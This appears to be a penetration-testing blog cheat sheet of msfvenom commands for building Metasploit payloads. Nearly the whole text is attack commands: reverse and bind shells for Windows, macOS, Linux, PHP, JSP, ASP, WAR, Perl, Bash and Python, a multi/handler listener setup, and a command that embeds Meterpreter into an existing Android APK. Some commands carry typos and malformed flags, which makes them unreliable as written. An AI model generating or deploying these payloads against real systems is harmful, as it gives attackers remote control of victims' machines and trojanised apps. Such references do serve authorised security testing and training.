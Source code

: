 ```yaml
---
published: true
title: MsfVenom Payload Cheat Sheet
category: Cheatsheet
image: 'https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/metasploit.jpg'
author: F3dai
---
```

MSFvenom Payload Creator (MSFPC) is a user-friendly multiple payload generator that can be used to generate Metasploit payloads based on user-selected options. MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

### Metasploit Payload Listener

<pre>msfconsole
use exploit/multi/handler
set [payload-name]
set [ip-address]
set [port]
Run</pre>

### Windows Payloads

Windows Meterpreter Reverse Shell: 

<pre>msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe</pre>

Windows Reverse Shell:

<pre>msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe</pre>

Windows Encoded Meterpreter Reverse Shell:

<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe</pre>

Windows Meterpreter Reverse Shellcode

<pre>msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f &lt platform </pre>

### MacOS Payloads

macOS Bind Shell:

<pre>msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho</pre>

macOS Reverse Shell:

<pre>msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho</pre>

macOS Reverse TCP Shellcode:

<pre>msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f &lt platform </pre>

### Linux Payloads

Linux Meterpreter TCP Reverse Shell:

<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Bind TCP Shell:

<pre>msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Bind Meterpreter TCP Shell:

<pre> msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Meterpreter Reverse Shellcode:

<pre> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f &lt; platform </pre>

### Web-based Payloads

PHP Meterpreter Reverse Shell:

<pre> msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php</pre>

JSP Java Meterpreter Reverse Shell:

 <pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp</pre>

ASP Meterpreter Reverse Shell:

<pre> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp</pre>

WAR Reverse TCP Shell:

 <pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war</pre>

### Script-Based Payloads

Perl Unix Reverse shell:

<pre> msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl</pre>

Bash Unix Reverse Shell:

 <pre>msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh</pre>

Python Reverse Shell:

 <pre>msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py</pre>

### Android Payloads

Android Meterpreter reverse Payload:

<pre>msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk</pre>

Android Embed Meterpreter Payload:

<pre>msfvenom -x &lt;app.apk> android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk</pre>

[Msf-Venom Payload Cheat Sheet | Meterpreter Payload Cheat Sheet](/cheatsheet/MsfVenom-Payloads/)
